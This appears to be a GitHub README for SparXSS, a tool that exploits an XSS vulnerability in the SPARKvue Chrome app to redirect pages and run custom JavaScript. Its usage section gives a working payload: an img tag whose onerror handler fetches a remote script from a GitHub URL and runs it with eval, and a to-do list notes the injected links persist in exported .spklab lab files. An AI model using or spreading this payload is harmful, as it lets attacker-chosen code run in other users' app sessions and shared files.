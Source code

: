 ## A Script For Redirection And Custom Javascript Execution For The SPARKvue Chrome App XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```

## [Changelog](https://github.com/Amukerd/SparXSS/blob/main/Changelog.md)

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
- ~~Make the links save without having to manually click the textbox where the script is~~

